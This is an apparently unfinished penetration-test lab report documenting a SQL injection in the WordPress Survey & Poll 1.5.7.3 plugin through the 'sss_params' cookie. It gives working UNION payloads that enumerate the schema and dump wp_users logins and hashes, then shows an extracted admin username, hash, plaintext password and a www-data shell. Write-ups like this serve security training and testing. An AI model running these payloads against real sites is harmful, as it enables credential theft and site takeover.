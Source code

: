 *Additional info about where the initial shell was acquired from*

**Vulnerability Explanation:**
   - **Exploit Title:** Wordpress Plugin Survey & Poll 1.5.7.3 'sss_params' SQL Injection: https://www.exploit-db.com/exploits/45411


**Vulnerability Fix:**

**Severity:**

**Proof of Concept Code Here:**
- Step 2. When you answer the question, wp_sap will be assigned to a value. Open a cookie manager, and change it with the payload showed below;

```
["1650149780')) OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@@version,11#"]
```
  
```
["1650149780')) OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name='wp_users'#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users#"]
```

**Local.txt Proof Screenshot**
- TODO
**Local.txt Contents**
- Table 'wp_users' **user_login** **user_pass**
```
var sss_params = {[\"user_login\"],[\"user_pass\"],[\"user_nicename\"],[\"user_email\"],[\"user_url\"],[\"user_registered\"],[\"user_activation_key\"],[\"user_status\"],[\"display_name\"]]}"};
```

- Username **wp_ajla_admin**
```
var sss_params = {\"survey_id\":\"1550849657\",\"style\":\"modal\",\"expired\":\"false\",\"debug\":\"true\",\"questions\":[[\"Are you enjoying the new site?\",\"Yes\",\"No\"],[\"wp_ajla_admin\"]]}"};
```
- Password **!love29jan2006!**

```
var sss_params = {\"survey_id\":\"1550849657\",\"style\":\"modal\",\"expired\":\"false\",\"debug\":\"true\",\"questions\":[[\"Are you enjoying the new site?\",\"Yes\",\"No\"],[\"$P$BfBIi66MsPQgzmvYsUzwjc5vSx9L6i\\\/\"]]}"};
```

- whoami **www-data**
